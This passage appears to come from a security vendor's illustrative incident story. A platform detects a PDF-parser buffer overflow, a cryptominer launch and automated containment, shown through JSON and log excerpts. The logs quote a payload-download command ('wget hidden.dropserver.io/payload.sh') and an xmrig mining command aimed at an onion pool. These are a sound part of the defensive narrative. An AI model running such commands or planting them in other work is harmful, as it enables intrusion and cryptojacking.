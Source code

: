 ```json
    "name": "xmrig",
    "commandLine": "./xmrig -o crypto.pool.hidden.onion -u wallet345112",
    "parentProcess": "bash",
    "networkConnections": ["crypto.pool.hidden.onion:3333"]
  }
}
```

The platform instantly correlated this with threat indicators, normal behavior baselines, and the component's intended purpose, while tracing the execution path to identify the entry point.

### Tuesday, 2:50 AM: Automated Response

The platform isolates the affected container, preserves evidence, deploys a clean instance, routes requests to unaffected instances, and increases monitoring sensitivity. Platform sends Joe a message to his phone notifying about what is happening.

The security event timeline with rich contextual metadata shows:

```
02:46:12 - [API-GATEWAY] - Unusual POST request to /api/document/process 
           {source_ip: "185.224.x.x", user_agent: "Custom/2.1", 
           request_size: 12.4MB, authentication: "api-key-7623"}

02:46:14 - [APP-SERVER] - Document processing initiated
           {document_type: "pdf", user_context: "api-service-account", 
           file_hash: "e5f2c47ab21e4c...", access_level: "standard"}

02:46:17 - [APP-SERVER] - Document parser exception
           {error_type: "buffer_overflow", component: "pdf_renderer", 
           stack_trace: "included", memory_impact: "heap_corruption"}

02:46:18 - [APP-SERVER] - Unexpected shell execution
           {process: "bash", triggered_by: "pdf_renderer", 
           user_context: "app-service", command: "wget hidden.dropserver.io/payload.sh"}

02:46:21 - [APP-SERVER] - File download completed
           {file: "payload.sh", size: 4.2KB, hash: "a82efc937..."}

02:46:23 - [APP-SERVER] - Crypto miner launched
           {process: "xmrig", arguments: "-o crypto.pool.hidden.onion -u wallet345112", 
           cpu_usage: 98%, network: "tor_connection_attempt"}
```

### Tuesday, 6:30 AM: Joe's Early Morning

Joe arrives at work and sees a security incident notification:

```
SECURITY INCIDENT CONTAINED - ZERO-DAY VULNERABILITY
• Attack vector: PDF parser buffer overflow in document processing API
• Impact: Attempted cryptocurrency mining on 2 containers
• Status: Contained and remediated
• Customer data: No exposure detected (verified via access tracing)
• Current application status: Fully operational with protective measures
```
